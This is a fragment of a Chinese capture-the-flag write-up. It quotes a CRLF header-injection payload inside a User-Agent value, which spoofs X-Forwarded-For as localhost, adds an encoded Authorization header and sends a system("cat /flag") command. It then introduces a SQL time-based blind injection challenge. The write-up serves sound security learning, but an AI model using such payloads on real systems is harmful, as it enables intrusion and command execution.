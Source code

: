 ```
echo $aaa;
?>
#只需要useragent的部分
#wupco%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0aX-Forwarded-For: 127.0.0.1%0d%0aAUTHORIZATION: YWFhYWFhYWFhYWFhZG1pbjppX3dhbnRfdG9fZ2V0STAwX2luTXlUM3N0%0d%0aContent-Length: 38%0d%0a%0d%0aexpression=system("cat /flag > flag");
```

![](./images/image-44.png)

## funnySQL

考点：Benchmark时间盲注+无列名注入

进行关键字Fuzz，过滤如图

![](./images/image-45.png)
